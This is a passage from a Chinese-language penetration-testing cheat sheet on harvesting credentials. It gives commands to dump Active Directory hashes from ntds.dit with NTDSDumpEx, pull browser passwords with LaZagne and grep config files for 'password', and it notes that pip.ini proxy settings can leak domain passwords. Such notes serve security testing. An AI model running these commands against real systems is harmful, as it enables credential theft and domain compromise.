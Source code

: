 **方法二**

```cmd
NTDSDumpEx.exe -d ntds.dit -s system
```

![2021-07-09_143554](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-09_143554.jpg)

### 1.6 其他

#### 1.6.1 哈希在线破解

```shell
https://cmd5.com
https://www.objectif-securite.ch/ophcrack
```

#### 1.6.2 pip泄露企业域账户口令

企业域内使用pip可能要走代理，而为了通过流量认证，往往需要在pip.ini 设置http代理信息，而代理信息中可能含有域账号及密码。

C:/User/账户名/pip/pip.ini

## 2 浏览器密码

### 2.1 LaZagne

LaZagne：https://github.com/AlessandroZ/LaZagne

```cmd
# 以管理员权限运行时可拉取下来哈希
lazagne.exe all
```

### 2.2 手工查看

**Firefox**

```shell
"打开菜单"=>"我的密码"
```

**Chrome**

```shell
#这种方式需要知道管理员密码
"设置"=>"自动填充"=>"密码"=>"已保存的密码"
```



## 3 应用第三方应用

### 3.1 查找明文密码

```powershell
findstr /i /s "password" *.config
findstr /i /s "password" *.ini
findstr /i /s "password" *.xml
```
